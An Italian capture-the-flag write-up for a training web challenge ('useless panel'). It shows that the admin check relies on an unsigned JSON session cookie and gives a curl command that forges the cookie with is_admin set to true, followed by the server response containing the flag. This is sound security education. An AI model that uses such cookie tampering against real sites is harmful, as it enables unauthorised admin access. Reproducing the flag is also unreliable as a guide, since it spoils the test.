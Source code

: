 > Un pannello assolutamente inutile, ma forse l'admin nasconde qualcosa!

Provando a registrarsi con username e password qualunque, si apre una pagina che permette di cambiare descrizione, aggiungere una nota al profilo, oppure cliccare un certo pulsante "Admin". Aprendo la pagina di admin senza esserlo, il risultato è una scritta "Not an admin :p" che impedisce di visualizzarne il contenuto.
Nei devtools del browser però, guardando la rete e poi i request cookies, troviamo:

```
"session": "{\"user\":{\"username\":\"emma\",\"password\":\"12345678\",\"is_admin\":false,\"description\":\"prova\",\"notes\":[\"prova\"]}}"
```

Ci basta modificare il valore "is_admin" da *false* a *true* in un qualsiasi modo, ad esempio con curl:
```
curl -i -X GET "http://useless-panel.challs.olicyber.it/admin" \
-H "Cookie: session={\"user\":{\"username\":\"emma\",\"password\":\"12345678\",\"is_admin\":true,\"description\":\"prova\",\"notes\":[\"prova\"]}}"
```

E riceviamo la flag stampata:

```
HTTP/1.1 200 OK
Content-Length: 39
Content-Type: text/html; charset=utf-8
Date: Sat, 13 Sep 2025 20:45:20 GMT
Etag: W/"27-Y6fIQ1Q+w0AiN5GGgkCoSfQUFKc"
X-Powered-By: Express

flag{never_trust_user_provided_cookies}
```

**flag{never_trust_user_provided_cookies}**

